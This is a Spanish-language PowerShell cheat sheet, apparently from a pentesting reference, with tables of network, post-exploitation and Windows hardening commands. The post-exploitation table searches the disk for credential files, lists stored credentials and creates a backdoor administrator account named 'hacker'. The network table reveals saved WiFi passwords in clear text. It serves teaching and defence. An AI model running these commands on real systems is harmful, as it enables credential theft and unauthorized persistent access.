 ***

### 🔌 Red y Comunicaciones

| **Comando**                                             | **Descripción**                                  |
| ------------------------------------------------------- | ------------------------------------------------ |
| `Get-NetIPAddress`                                      | Muestra configuración de IPs en la máquina.      |
| `Get-NetRoute`                                          | Lista las rutas de red configuradas.             |
| `Get-NetTCPConnection \| Sort-Object LocalPort`         | Enumera conexiones y puertos abiertos ordenados. |
| `Test-Connection google.com -Count 4`                   | Realiza ping a un dominio.                       |
| `Test-NetConnection -ComputerName google.com -Port 443` | Prueba la conectividad a un puerto específico.   |
| `netsh wlan show profiles`                              | Lista las redes WiFi guardadas.                  |
| `netsh wlan show profile name="MiWiFi" key=clear`       | Muestra la contraseña de una red WiFi guardada.  |

***

### 📂 Post-explotación en Equipos Standalone

| **Comando**                                                                                                                                            | **Descripción**                                             |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------- |
| `Get-ChildItem -Path C:\ -Include *.txt,*.xml,*.ini -Recurse -ErrorAction SilentlyContinue \| Select-String -Pattern "password\|clave\|secret\|login"` | Busca archivos con posibles credenciales o datos sensibles. |
| `cmdkey /list`                                                                                                                                         | Exporta contraseñas guardadas (solo IE/Edge clásico).       |
| `Get-Process \| Where-Object {$_.Path -like "*System32*"} \| Select-Object Name,Id,Path`                                                               | Lista procesos ejecutándose con privilegios elevados.       |
| `net user hacker Password123! /add`                                                                                                                    | Crea un usuario local llamado `hacker`.                     |
| `net localgroup Administradores hacker /add`                                                                                                           | Añade el usuario `hacker` al grupo de administradores.      |

***

### 🔒 Hardening y Defensa (Blue Team)

| **Comando**                                                           | **Descripción**                                                |
| --------------------------------------------------------------------- | -------------------------------------------------------------- |
| `Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True` | Activa el Firewall de Windows.                                 |
| `Install-WindowsUpdate -AcceptAll -AutoReboot`                        | Instala actualizaciones pendientes y reinicia si es necesario. |
| `Get-HotFix \| Sort-Object InstalledOn -Descending`                   | Lista actualizaciones instaladas ordenadas por fecha.          |
| `Get-LocalUser \| Where-Object {$_.PasswordExpires -eq $false}`       | Muestra usuarios con contraseñas que nunca expiran.            |
